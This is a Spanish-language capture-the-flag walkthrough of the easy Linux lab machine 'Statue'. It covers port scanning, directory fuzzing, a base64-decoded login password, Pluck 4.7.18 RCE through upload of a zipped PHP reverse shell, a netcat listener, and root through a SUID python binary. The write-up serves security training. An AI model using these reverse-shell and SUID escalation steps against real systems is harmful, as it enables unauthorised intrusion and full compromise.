

# Statue - The Hacker Labs (Fácil)

Statue es una máquina Linux de la plataforma The Hacker Labs, de dificultad fácil.

- [Reconocimiento](#reconocimiento)
- [Enumeración](#enumeración)
- [Explotación](#explotación)
- [Post-Explotación](#post-explotación)
- [Elevación de privilegios](#elevación-de-privilegios)

## Reconocimiento

Lo primero que hice fue un escaner dentro del rango de IPs de mi interfaz de red para descubrir cual es la IP de la máquina. Después del escaner veo que la IP es la `10.0.2.12` y le hago ping para comprobar la conectividad, y viendo que la ttl es 64 me aseguro de que es una máquina Linux.

```
sudo arp-scan -I enp0s3 -l
ping 10.0.2.12
```


Despúes hago un escaner de puertos con Nmap para ver que puertos hay abiertos.
Utilizo:
- **-p-** Para hacer el escaner a los 65535 puertos
- **-vvv** Para ir viendo en tiempo real el momento en el que descubre un puerto abierto
- **--open** Para solo buscar puertos abiertos
- **-sS** Para que en el protocolo tcp solo haga el SYN Connect sin esperar respuesta ACK, por lo que agiliza el escaner
- **-Pn** Para no hacer ping a la máquina ya que ya sabemos que hay conectividad.
- **-T5** Para aumentar la velocidad del escaner al máximo.
- **-n** Para desactivar la resolución DNS.

`sudo nmap -p- -vvv --open -sS -Pn -T5 -n 10.0.2.12 -oN open-ports`

Termina el escaner y vemos que solo están abiertos los puertos 22 y 80.


## Enumeración

Hacemos un escaner con Nmap Para analizar los sercicios que corren en los puertos 22 y 80.
Ultilizamos el argumento **-sVC** para que resuelva las versiones y lanze scripts comunes que analizen los servicios.

`nmap -p 22,80 -sVC -Pn -n 10.0.2.12 -oN scan`

Podemos ver que en el puerto 22 corre un OpenSSH 9.6p1 y el en puerto 80 un Apache httpd 2.4.58.


Si accedemos a la página podemos ver un directory listing vacío.


Siendo usuario root metemos el dominio `statue.thl` en `/etc/hosts`

```
sudo su
echo '10.10.11.12    statue.thl' >> /etc/hosts
```

Ahora si entramos con este dominio nos redirige a la página http://statue.thl/?file=rodgar


Viendo que la página tiene un parametro **file** que carga un archivo probé a cargar el `/etc/passwd` sin exito.


Tambien podemos ver esta página de login por lo que de alguna forma necesitamos la contraseña.


Hice fuzzing con `ffuf` para ver que directorios y archivos hay en la página. Buscando archivos .txt, .md y .php

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .php,.txt,.md -u http://statue.thl/FUZZ
```

Después del escaner se pueden ver varios archivos y directorios, pero el importante es el **`README.md`**.


Entrando en el `README.md` vemos un texto bastante grande, en base64.


Guardamos este texto en un archivo.


Después de decodificarlo varias veces podemos ver que el texto era "**fideicomiso**" codificado muchas veces en base64.

```
cat encoded | base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d
```


Si lo pegamos como contraseña en el login conseguimos acceso.


## Explotación

Despues de haber conseguido acceso necesitaba buscar vulnerabilidades. Ejecutando el comando `whatweb` podemos ver que la version del pluck es la 4.7.18.


Buscando un poco, esta pagina de github encontré un script para explotar un RCE en un servicio pluck con esa misma versión

https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC

Viendo un poco el código, basicamente lo que hay que hacer es subir un archivo zip a http://statue.thl/admin.php?action=installmodule con un script en php para ganar una shell reversa.

En esta página de github me descargue el script de pentestmonkey/php-reverse-shell que es bastante efectivo:
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Dentro del script cambio la IP por mi IP y pongo el puerto 4444.


Guardo el Script en un ZIP.

`zip shell.zip php-reverse-shell.php`

Subí el ZIP a:
http://statue.thl/admin.php?action=installmodule


Puse en escucha el puerto 4444 con netcat.

`nc -lvnp 4444`

En otra terminal llamé a al script con curl, aunque también se puede hacer en el navegador.

`curl 'http://statue.thl/data/modules/shell/php-reverse-shell.php'`

Y consigo acceso a la máquina.


## Post-Explotación

Para estabilizar la shell ejecuté los siguientes comandos:

```
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Podemos ver que soy el usuario `www-data` y que hay dos usuarios en la máquina, "charles" y "juan"


Dentro de `/var/www` una carpeta `Charles-Wheatstone` la cual contiene un archivo `pass.txt`. El archivo contiene tanto una Pass encriptada y una Key codificada en base64.


Al decodificar varias veces la key vemos que inicialmente era "guardar".

```
echo 'Vm0xd1MyUXhVWGhYV0d4VFlUSm9WbGx0ZUV0V01XeHpXa2M1YWxadFVuaFZNVkpUVlVaYVZrNVlWbFpTYkVZelZUTmtkbEJSYnowSwo=' > key
cat key | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
```



Viendo la Pass y la key no he sido capaz de determinar que tipo de encriptación era. 


## Elevación de privilegios

Buscando otras alternativas de escalar privilegios he hecho una busqueda de archivos con permiso SUID y he encontrado que el binario `/usr/bin/python3.12` tien permisos SUID y ademas pertenece al usuario root. Por lo que si conseguimos una shell com python podriamos tener permisos root.

`find / -perm /4000 2>/dev/null`


Ejecutamos este comando para obtener una shell con python.

`/usr/bin/python3.12 -c 'import os; os.execl("/bin/bash", "bash", "-p")'`

Y vemos que ya somos root y podemos leer el `root.txt`.


Tambien podemos leer el `user.txt` dentro de `/home/juan`.

